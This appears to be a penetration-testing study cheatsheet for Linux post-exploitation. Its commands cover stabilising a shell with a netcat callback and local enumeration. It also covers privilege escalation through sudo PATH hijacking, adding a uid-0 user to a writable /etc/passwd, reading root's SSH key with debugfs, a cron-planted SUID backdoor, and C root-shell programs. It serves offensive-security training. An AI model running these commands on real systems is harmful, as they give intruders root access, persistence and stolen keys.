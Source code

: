 ```yaml
---
title: Linux Post Exploitation
date: 2020-06-29 16:33:08
tags: [oscp, linux, cheatsheet, privilege escalation]
---
```


# Linux Post Exploitation

So you got a shell, what *now*?
This cheatsheet will help you with local enumeration as well as escalate your privilege further

Usage of different enumeration scripts are encouraged, my favourite is [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
Another linux enumeration script I personally use is [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
Abuse existing functionality of programs using [GTFOBins](https://gtfobins.github.io/)

*Note: This is a live document. I'll be adding more content as I learn more*

## Unstable shell
Send yourself another shell from within the unstable shell
``` bash
which nc
nc $ip $port
```

## Make it functional
Necessary for privilege escalation purposes
``` bash
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```
## General info
``` bash
# username, groups
id
hostname

# Part of too many groups? Find out all the files you've access to
for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

# Interesting internally listening ports?
netstat -anpt

# Look what the user was up to
less .bash_history
less mysql_history

# Check user accounts
cat /etc/passwd | grep "sh$\|python"

sudo -l
```
## Automated enumeration
``` bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q

./linenum.sh
```

## Abusing sudo
Can sudo but absolute path is specified? Use `ltrace` to view libraries being loaded by these programs and check if absolute path is specified or not
``` bash
# Easy win?
sudo -l # Check programs on GTFOBins

# Can sudo, abosulte path not specified?
echo "/bin/sh" > <program_name>
chmod 777 <program_name>
# Export PATH=.:$PATH
sudo <program_name>
```

## Weak file permissions
``` bash
# Writable /etc/passwd?
Remove 'x' beside a username --> no password
# Create a new user
openssl passwd "lol" # Prints out a hash
# Make a new entry at the end of /etc/passwd
notahacker:$passwd_hash:0:0:/root:/bin/bash # Become r00t yourself

# /dev/sda1 readable?
debugfs /dev/sda1 # Get root's SSH private key 
```

## Abusing CRON jobs
``` bash
# Writable CRON program?
# Insert language specific reverse shell

# Writable library?
# Back up library
# Insert language specific reverse shell at the end of the library

# Make root give you a bash SUID program
# Make getroot.sh file with following contents and wait for CRON job to run the program
#!/bin/dash
cp /bin/dash /tmp/backdoor
chown root:root /tmp/backdoor
chmod u+s /tmp/backdoor
# Execute /tmp/backdoor to get a root shell
```
Use a suid program and use as per context
getsuid.c
``` c
// BOTH WORKS
// gcc -o suid getsuid.c
// AS INTENDED USER - 
	// chown root:root suid
	// chmod 6755 suid

// immediately spawns shell upon execution 
int main() {
	setuid(0);
	system("/bin/bash -p");
}

// or better, execvp doesn't drop euid
// able to handle more things without any modifications
// run commands as root
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char * argv[]){
	if (argc > 1) printf("%s",execvp(argv[1],&argv[1]));
	return 0;
}
```
## Abusing wildcards
Check out this fantastic [document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) of a talk
* Abusing `chmod` 
* Abusing `chown`
* Abusing `tar`
* Abusing `rsync`

